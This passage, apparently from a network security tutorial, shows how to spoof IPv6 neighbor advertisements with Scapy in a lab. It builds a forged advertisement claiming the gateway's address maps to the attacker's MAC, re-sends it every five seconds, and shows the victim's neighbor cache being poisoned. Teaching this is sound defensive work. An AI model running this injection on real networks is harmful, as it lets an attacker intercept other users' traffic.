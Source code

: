 ```
res        : XBitField            = (0)
tgt        : IP6Field             = ('::')
>>> na=ICMPv6ND_NA(tgt='fe80::1', R=0)
>>> ls(ICMPv6NDOptDstLLAddr)
type       : ByteField            = (2)
len        : ByteField            = (1)
lladdr     : MACField             = ('00:00:00:00:00:00')
>>> lla=ICMPv6NDOptDstLLAddr(lladdr='00:00:00:00:00:0c')
```

Once we've constructed the individual layers of the packet, we can see how they look after being welded together (notice that Scapy will handle minor aspects automatically, like setting the Ethernet type field to 0x86dd for IPv6).

```
>>> (ether/ipv6/na/lla).display()
###[ Ethernet ]###
  dst= 00:00:00:00:00:0b
  src= 00:00:00:00:00:0c
  type= 0x86dd
###[ IPv6 ]###
   version= 6
   tc= 0
   fl= 0
   plen= None
   nh= ICMPv6
   hlim= 255
   src= fe80::1
   dst= fe80::2
###[ ICMPv6 Neighbor Discovery - Neighbor Advertisement ]###
    type= Neighbor Advertisement
    code= 0
    cksum= 0x0
    R= 0
    S= 0
    O= 1
    res= 0x0
    tgt= fe80::1
###[ ICMPv6 Neighbor Discovery Option - Destination Link-Layer Address ]###
       type= 2
       len= 1
       lladdr= 00:00:00:00:00:0c
```

We can now inject this packet at regular intervals onto the LAN. The following command within Scapy will retransmit the packet every five seconds:

```
>>> sendp(ether/ipv6/na/lla, iface='br0', loop=1, inter=5)
```

At a console on the victim machine (running Linux), we can use the `ip` utility to monitor IPv6 neighbors on the link. Notice that the MAC address for fe80::1 is initially listed as `00:00:00:00:00:0a`, the legitimate gateway, but as soon as we begin injecting our malicious neighbor advertisement, the entry is updated to `00:00:00:00:00:0c`, our attacking machine
